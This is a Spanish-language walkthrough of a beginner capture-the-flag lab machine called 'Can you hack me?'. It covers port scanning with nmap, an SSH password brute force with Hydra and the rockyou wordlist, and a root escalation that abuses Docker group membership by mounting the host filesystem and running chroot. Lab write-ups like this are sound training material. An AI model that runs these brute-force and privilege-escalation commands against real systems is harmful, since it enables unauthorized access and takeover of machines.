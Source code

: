 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Can you hack me?

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.53
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (657).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.53
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (658).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80,3306 -v 192.168.1.53
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (659).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Antes que nada se añadió en el fichero `/etc/hosts` el dominio **canyouhackme.thl** con su correspondiente IP.

<figure><img src="../../.gitbook/assets/image (660).png" alt=""><figcaption></figcaption></figure>

Revisamos el código fuente y encontramos un mensaje relevante.

<figure><img src="../../.gitbook/assets/image (661).png" alt=""><figcaption></figcaption></figure>

Descubrimos un posible nombre de usuario llamado **juan** por lo que realizaremos un ataque de fuerza para poder obtener una contraseña y así poder conectarnos como descubrimos al servicio **SSH**.

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l juan-P /usr/share/wordlists/rockyou.txt ssh://192.168.1.53
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **192.168.1.53**.

<figure><img src="../../.gitbook/assets/image (662).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **juan**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh juan@192.168.1.53
```

<figure><img src="../../.gitbook/assets/image (663).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar pero observamos que no podemos ejecutar sudo.

Listamos permisos **SUID** y **capabilities**, pero no tenemos nada que nos pueda ayudar.

```bash
find / -perm -4000 -user root 2>/dev/null -o -type f -exec getcap {} \; 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (666).png" alt=""><figcaption></figcaption></figure>

Verificamos los grupos a los que pertenece el usuario y observamos que forma parte del grupo **Docker**.

<figure><img src="../../.gitbook/assets/image (665).png" alt=""><figcaption></figcaption></figure>

Vamos a verificar si podemos aprovechar nuestra pertenencia al grupo **Docker**. Para más información, podemos consultar **HackTricks**, donde revisamos los detalles sobre Docker.

```bash
find / -name docker.sock 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (664).png" alt=""><figcaption></figcaption></figure>

Listamos las imágenes y confirmamos que tenemos una llamada **Alpine**.

```bash
docker images
```

<figure><img src="../../.gitbook/assets/image (667).png" alt=""><figcaption></figcaption></figure>

Con esto, ahora podemos ejecutar la imagen montando en el host y utilizando **chroot** para obtener acceso como **root**.

```bash
docker run -it -v /:/host/ alpine chroot /host/ bash
```

<figure><img src="../../.gitbook/assets/image (669).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (670).png" alt=""><figcaption></figcaption></figure>

Hemos finalizado con éxito **todas las etapas del proceso** y cumplido con todos los **requisitos**.&#x20;

¡Buena suerte en tu búsqueda de las **flags**! Recuerda prestar atención a cada detalle, examinar los archivos y servicios detenidamente, y utilizar todas las herramientas a tu alcance para encontrarlas. ¡La clave está en la perseverancia y en no dejar nada sin explorar! ¡Adelante, hacker! 💻🔍🚀
